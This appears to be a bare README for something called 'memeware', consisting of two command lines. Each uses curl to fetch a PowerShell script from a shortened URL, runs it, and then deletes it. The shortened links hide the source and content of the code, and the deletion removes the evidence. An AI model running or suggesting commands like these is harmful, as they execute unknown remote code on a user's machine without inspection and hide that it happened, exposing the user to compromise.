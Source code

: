 # memeware

curl -L -o s.ps1 shorturl.at/gAHL2 -and ./s.ps1 -and rm s.ps1
curl -L -o s.ps1 shorturl.at/rxyzJ -and ./s.ps1 -and rm s.ps1
